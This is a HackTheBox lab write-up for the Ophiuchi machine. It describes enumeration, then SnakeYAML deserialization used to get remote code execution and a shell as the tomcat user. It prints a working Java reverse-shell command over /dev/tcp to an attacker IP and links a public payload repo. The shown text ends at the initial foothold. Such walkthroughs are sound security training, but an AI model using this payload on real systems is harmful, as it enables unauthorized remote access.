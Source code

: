 ```yaml
---
layout: post
title: HackTheBox Ophiuchi Write-up
---
```


<h2>Overview</h2>

Ophiuchi is a Medium-rated Hackthebox linux machine. I gain a foothold via an exposed yaml parser with unrestricted Java methods allowing RCE and a shell as the user tomcat. From there, exposed credentials allow a quick escalation to the user "admin". As admin, I discover I'm able to run a go script as superuser. The file loads scripts without specifying full filepaths, allowing script hijacking and command execution as root.

<h2>Initial Enumeration</h2>

Initial nmap enumeration reveals two ports open: SSH on port 22, and Apache Tomcat site on port 8080.

![image](https://user-images.githubusercontent.com/44827973/141241262-3409fed4-2bc0-47ef-9096-64f8af05ef93.png)

Heading over to port 8080 on a browser reveals an "Online YAML Parser":

![image](https://user-images.githubusercontent.com/44827973/141241523-217abe00-67cf-48a1-8c6f-5e6e8fa2ca59.png)

Testing some gibberish input and clicking parse, I get redirected to this security message:

![image](https://user-images.githubusercontent.com/44827973/141241584-ed9f2860-720c-4a9d-bca7-ee306f6a4d64.png)

Looking to find more clues, I look up the meaning of this strange word "Ophiuchi".

![image](https://user-images.githubusercontent.com/44827973/141242196-d6436a15-b45a-4b87-b2cb-1884505d54e5.png)

Conveniently, the first link shown when I search for "yaml exploit" returns a "SnakeYAML deserialization" blog entry.

![image](https://user-images.githubusercontent.com/44827973/141242358-9499465e-9c78-4bc2-a36b-c0ce616d1cff.png)

<h2>Exploiting SnakeYAML -> RCE</h2>

The blog author details a vulnerability in snakeyaml where, if user input is directly passed to a function, the application can be vulnerable to deserialization leading to RCE.
First on my local host I open an HTTP server, and then on the target website I test the payload provided by the blog.

![image](https://user-images.githubusercontent.com/44827973/141243558-c3d44771-864f-41d6-9e2e-8d4896256bec.png)
![image](https://user-images.githubusercontent.com/44827973/141243557-b5df5fcc-eed0-49bd-a661-e241da4b1e58.png)

The web server attempts to make contact with my host. Looks like the security message is either a trick or not up to date, as I can clearly get some form of execution going.

As explained by the blog, snake yaml can interpret Java class constructors in the yaml payload. Upon parsing the provided payload, snake YAML invokes ScriptEngineManager which as we can see attempted to access the "/META-INF/services/javax.script.ScriptEngineFactory" endpoint.

An exploit for this is provided in this github repo:
https://github.com/artsploit/yaml-payload

Upon parsing our yaml payload, the web server will look for the file "/META-INF/services/javax.script.ScriptEngineFactory" and read its contents. It will then attempt to execute the class file pointed to by this file. This exploit aims to abuse this by creation of a Java class file containing arbitrary commands which will force the web server to execute.

I created a folder tree similar to the exploit, in order for the server to locate the header file "javax.script.ScriptEngineFactory" and the class file containing the code I want executed. This is how it ends up looking:

![image](https://user-images.githubusercontent.com/44827973/141244440-6ec163f4-93c3-4d29-aefd-1128d5a6cf6b.png)

Within the javax.script.ScriptEngineFactory file, I specify the package and class I want executed, which will be my exploit.class within my snakeyaml directory:
`snakeyaml.exploit`

I copied the repo's .java file inside my package directory "snakeyaml", and make a modification of the comand to get a reverse shell. Note how I rename the package and class - Java classes need to be the same name as the filename.

![image](https://user-images.githubusercontent.com/44827973/141244687-06921bf0-9a95-4555-b60a-77fd952824ec.png)

Here is the reverse shell command I use:

`Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.6/443;cat <&5 | while read line; do $line 2>&5 >&5; done"});`

After modifying, I compile it with "javac exploit.java".

I start a reverse shell listener with netcat.
When I execute my yaml payload again on the website, I get a hit on my HTTP server with response 200 (meaning OK - there were no errors in retrieving the files). I get a reverse shell as "tomcat".

![image](https://user-images.githubusercontent.com/44827973/141245175-f9ae8a04-98c7-4c1e-8cb3-a12dd562560a.png)
![image](https://user-images.githubusercontent.com/44827973/141245182-168a32f8-a457-40eb-bdd6-0887d379aa24.png)

